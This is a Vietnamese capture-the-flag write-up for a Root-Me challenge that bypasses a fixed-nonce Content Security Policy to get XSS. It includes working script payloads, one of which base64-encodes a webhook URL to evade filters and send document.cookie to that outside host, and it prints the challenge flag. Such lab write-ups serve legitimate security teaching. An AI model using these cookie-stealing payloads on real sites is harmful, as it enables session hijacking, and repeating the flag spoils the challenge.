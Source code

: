```diff
@@ Web-Server Challenge @@
```

## CSP Bypass - Nonce [50 Points]

- Mục tiêu của Challenge này là bypass Content security policy để thực thi XSS. Đầu tiên, ta dùng Burpsuite để kiểm tra CSP của trang web là gì. Ta thấy như sau

  ![17](img/17.jpg)

- Kiểm tra an toàn của CSP ta thấy nó có lỗ hổng trong việc sử dụng một **nonce cố định** (thường sẽ là random)

  ![17-1](img/17-1.jpg)

- Để thực thi script ta cần nhét nonce này vào thẻ script, tuy nhiên ở đây trang web đã filter **single quote** nên ta dùng **double quote**

  ```<script nonce="PHNjcmlwdCBubzgtMTEtMjAyMg==" > alert(1) </script>```

  *Lưu ý rằng đôi lúc nó thực thi được, đôi lúc lại không, chắc do server sida*

- Kết quả ta thấy có thể tiêm XSS

  ![17-2](img/17-2.jpg)

- Đổi lại payload để XSS ta có:

  ```<script nonce="PHNjcmlwdCBubzgtMTEtMjAyMg==" > document.location = "webhook-here"+document.cookie </script>```

- Ta có kết quả là bị filter. Kiểm tra thì biết server filter dấu ```.```, dấu ```'```, và chữ ```document```. Đổi nhẹ lại như sau ta có kết quả là xss thành công.

  Kết quả khi bị dính filter

  ![17-3](img/17-3.jpg)

  Và payload sau khi ta sửa lại: [Dùng base64encode để bypass các dấu ```.``` trong url, dùng ```window``` thay vì ```document```, dùng dấu ```+``` để nhét được chữ document vào window]

  ```javascript
  <script nonce="PHNjcmlwdCBubzgtMTEtMjAyMg==" > window["location"]=atob("aHR0cHM6Ly93ZWJob29rLnNpdGUvMDNjOTcwMzktYjAwZS00ODIwLTkxYzYtNjQyNDYwMmIwZTdmP2M9")+window["docu"+"ment"]["cookie"] </script>
  ```

  Để các ký tự ```+``` không bị xem như ký tự ```whitespace``` thì ta cần urlencode nó thành ```%2b``` 

  Và kết quả thu được

  ![17-4](img/17-4.jpg)

  ```diff
  -- Flag là: rootme{CSP_BYP455_n0nC3}
  ```